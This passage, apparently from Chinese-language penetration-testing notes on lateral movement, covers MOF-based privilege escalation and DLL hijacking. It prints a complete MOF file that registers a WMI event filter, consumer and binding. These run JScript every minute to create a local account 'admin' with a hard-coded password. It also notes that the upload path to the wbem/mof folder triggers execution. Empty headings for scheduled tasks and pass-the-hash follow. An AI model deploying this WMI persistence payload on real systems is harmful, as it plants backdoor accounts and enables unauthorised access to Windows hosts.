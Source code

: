 更多用法：http://www.feiesoft.com/windows/cmd/schtasks.htm

####SMB+MOF || DLL Hijacks  
其实这个思路一般都有用到的,比如在mof提权(上传mof文件到c:/windows/system32/wbem/mof/mof.mof)中,lpk_dll劫持  
不过测试添加账号成功...执行文件缺失败了  
```
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin adminaz1 /add\")";
};
instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```

####PTH + compmgmt.msc
